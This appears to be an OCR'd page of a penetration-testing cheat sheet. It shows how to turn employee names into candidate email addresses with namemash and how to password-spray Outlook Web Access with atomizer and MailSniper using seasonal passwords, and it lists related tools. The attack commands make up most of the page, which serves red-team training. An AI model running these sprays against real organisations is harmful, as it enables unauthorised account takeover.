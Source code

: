 #### Address Generation

Address format

```
# collect names into text file
$ cat names.txt
Joe Boden
Larry Mickles
Sarah Black
[...]

$ /opt/namemash/namemash.py employees.txt | sed 's/$/@vault.io/g'
joe.boden@vault.io
jboden@vault.io
boden.joe@vault.io
[...]
```

##### Resources
- https://gist.github.com/superkojiman/11076951

#### Spray

```
# Using atomizer
/opt/SprayingToolkit/atomizer.py owa mail.vault.io January2020 emails.txt

# Using MailSniper
PS > ipmo C:\tools\MailSniper\MailSniper.ps1
PS > Invoke-PasswordSprayOWA -ExchHostname mail.vault.io -UserList .\known-emails.txt -Password Spring2021
```

Other useful MailSniper functions
- Get-GlobalAddressList
- Invoke-SelfSearch

Depending on office version, verify valid accounts with `auxiliary/scanner/http/owa_login`

#### Resources
- http://weakpasswords.net/
- https://github.com/dafthack/MailSniper
- https://github.com/byt3bl33d3r/SprayingToolkit
- https://gist.github.com/superkojiman/11076951
- https://github.com/digininja/CeWL
- https://github.com/tomnomnom/comb
- https://github.com/ropnop/kerbrute

---

## 4. Exploitation

### Delivery
